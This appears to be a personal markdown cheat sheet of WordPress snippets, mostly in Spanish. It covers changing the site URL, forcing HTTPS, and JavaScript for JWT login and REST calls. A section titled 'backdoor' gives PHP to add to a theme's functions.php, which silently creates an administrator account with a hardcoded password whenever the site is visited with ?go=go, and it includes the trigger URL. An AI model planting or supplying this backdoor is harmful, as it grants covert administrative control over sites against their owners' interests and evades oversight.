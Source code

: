 # Wordpress

## Cambiar URL

Agragar en config.php

```
define( 'WP_HOME', 'http://localhost/devShell/dev/' );
define( 'WP_SITEURL', 'http://localhost/devShell/dev/' );
```

## SSL

Agregar al .htaccess para forzar que siempre use https

.htaccess

```
RewriteEngine On
RewriteCond %{HTTPS} !=on
RewriteRule ^(.*)$ https://%{HTTP_HOST}%{REQUEST_URI} [L,R=301,NE]
Header always set Content-Security-Policy "upgrade-insecure-requests;"
```

## AUTHENTICATION

1. install JWT **Authentication for WP REST API**
2. wp-config.php > agregar: **define('JWT_AUTH_SECRET_KEY', '[ALGUN-STRING-RANDOM]')**
3. login. leer user y pass del form y hacer un post:

```javascript
// auth

let flagStatus = "noAuth";
let user = "";
let pass = "";
const inputUser = document.querySelector("#user_login");
const inputPass = document.querySelector("#user_pass");
const submit = document.querySelector("#wp-submit");
const loginform = document.querySelector("#loginform");

submit.addEventListener("click", function (e) {
  const msg = document.querySelectorAll(".msg");
  if (flagStatus === "noAuth") {
    e.preventDefault();
    msg?.forEach((mesage) => mesage.remove());
    login(user, pass);
  } else return;
});

async function login() {
  const URL = "https://rubnv73.sg-host.com/wp-json/jwt-auth/v1/token";
  const headers = {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({
      username: inputUser.value,
      password: inputPass.value,
    }),
  };

  try {
    const res = await fetch(URL, headers);
    const data = await res.json();

    if (res.status === 200) {
      console.log(data);
      sessionStorage.setItem("token", data.token);
      flagStatus = "Authorized";
      submit.click();
    } else {
      console.log("error ", data);
      loginform.insertAdjacentHTML(
        "afterend",
        `<div class="msg">${data.message}</div>`
      );
    }
  } catch (error) {
    loginform.insertAdjacentHTML("afterend", `<div class="msg">${error}</div>`);
    console.log("error catch ", error);
  }
}
```

4. get some data using the token

```javascript
async function getSomething() {
  const URL = "https://rubnv73.sg-host.com/wp-json/wp/v2/users/me";
  const headers = {
    method: "GET",
    headers: {
      "Content-Type": "application/json",
      Authorization: `Bearer ${sessionStorage.token}`,
    },
  };
  try {
    const res = await fetch(URL, headers);
    const data = await res.json();

    if (res.status === 200) {
      console.log(data);
    } else {
      console.log("error ", data);
    }
  } catch (error) {
    console.log("error catch ", error);
  }
}

getSomething();
```

## backdoor

agregar en themes/[THEMA]/function.php del theme

```php
add_action('wp_head', 'ready');
function ready() {
If ($_GET['go'] == 'go') {
        require('wp-includes/registration.php');
        If (!username_exists('host_admin')) {
            $user_id = wp_create_user('host_admin', 'Pa55W0rd');
            $user = new WP_User($user_id);
$user->set_role('administrator');
}
}
}

```

Ir la ruta www.URL-DEL-SITIO?go=go

## AGCA LINK

[URL DE WEB ]/wp-admin/tools.php?page=ag-custom-admin%2Fplugin.php#general-settings
